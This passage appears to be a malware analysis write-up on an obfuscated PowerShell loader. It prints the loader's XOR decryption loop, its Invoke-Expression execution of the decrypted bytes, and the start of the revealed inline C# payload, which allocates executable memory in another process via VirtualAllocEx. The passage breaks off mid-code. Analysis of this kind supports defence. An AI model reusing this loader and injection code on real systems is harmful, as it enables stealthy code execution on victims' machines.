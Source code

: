```powershell
$contentBytes.foreach{ 
  $decryptedBytes += $_ -bxor $xor[$i];
  $i++;
  if ($i -eq $xor.Length) {
    $i = 0;
  } 
}
```

When the process completes, the loop exists and Microsoft's mistake cmdlet, `IEX` is used to execute the byte stream as it is converted from byte stream to UTF8.

```powershell
Invoke-Expression  ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```

### The actual code executed.

The actual code executed is never disclosed until runtime, (`On IEX of the byte stream`) . If the process is done manually, the actual UTF8 can be seen if `Invoke-Expression` is removed and the .NET method is called.

This reveals the actual malicious code, which is - as you may have had an inclination too - `Inline C#` and ya boy `P/Invoke`.

There is nothing inherently dangerous about C# nor P/Invoke , however the potential available compared to PowerShell alone is significant.

I will output the powershell and annotate it but it is actually self-explanatory, to execute it outside of the one-liner, you could create a `HERE` string with a variable such as `$source=@" content "@`.

I will output the associated files which are one big powershell script as the C# is inline and then followed up with some powershell then a call to the C# class

```powershell
$source = @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
#region Utils
public static class ProcessExtensions
{
    public static IntPtr ProcessHandler { get; set; }
    static ProcessExtensions()
    {
    }
    public static IntPtr Alloc(this Process proc, int size)
    {
        if (ProcessHandler == null)
        {
            return VirtualAllocEx(proc.Handle, IntPtr.Zero, (IntPtr)size,
            AllocationType.Commit | AllocationType.Reserve,
            MemoryProtection.ExecuteReadWrite);
        }
        else
        {
            return VirtualAllocEx(ProcessHandler, IntPtr.Zero, (IntPtr)size,
            AllocationType.Commit | AllocationType.Reserve,
            MemoryProtection.ExecuteReadWrite);
        }
    }
    public static bool Write(this Process proc, IntPtr ptr, byte[] data)
    {
        IntPtr nBytes;
        if (ProcessHandler == null)
        {
```
